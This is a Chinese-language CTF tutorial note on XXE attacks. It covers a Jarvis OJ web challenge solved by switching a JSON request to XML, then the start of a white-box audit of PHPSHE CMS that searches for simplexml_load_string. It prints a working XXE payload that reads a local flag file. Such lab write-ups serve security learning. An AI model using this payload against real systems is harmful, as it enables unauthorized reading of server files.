 - XML&XXE-前端-CTF&Jarvisoj&探针&利用

------

```plain
http://web.jarvisoj.com:9882/
XXE黑盒发现：
1、获取得到Content-Type或数据类型为xml时，尝试进行xml语言payload进行测试
2、不管获取的Content-Type类型或数据传输类型，均可尝试修改后提交测试xxe
流程：功能分析-前端提交-源码&抓包-构造Paylod测试

测试抓包：
```

![1646637917011-da76d60b-394a-4cac-b570-37b37e4e9d0c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102657356-1789050327.png)

```plain
发现是json格式，点击源代码：
```

![1646638375815-e3c7a701-7ccb-4469-a13b-976d1a455df7.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102657110-2086091274.png)

```plain
关键代码函数XMLHttpRequest，在网上搜索https://www.w3school.com.cn/xml/xml_http.asp

其实就是考的是xml

那么就直接把数据改为xml即可，用到之前的payload
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "file:///home/ctf/flag.txt">
]>
<x>&f;</x>

更改请求数据格式：Content-Type: application/xml
```

![1646639299177-9ff4cc26-974c-4587-a1bf-883cbfdc62f1.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102656904-1232454221.png)

- XML&XXE-白盒-CMS&PHPSHE&无回显审计

------

```plain
针对xxe漏洞挖掘，重点是关键函数，如果是数据传输，那么就很难被发现。（不知道特定功能点）
那应该搜什么关键函数呢？可以在网上直接查找相对应的资料。https://www.cnblogs.com/timelesszhuang/p/4699734.html

全局搜索simplexml_load_string关键函数
```

![1646698299754-c2b637bb-0708-40f1-a41e-c15e41264711.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102658943-1426082134.png)

```plain
找到相对应的文件
```
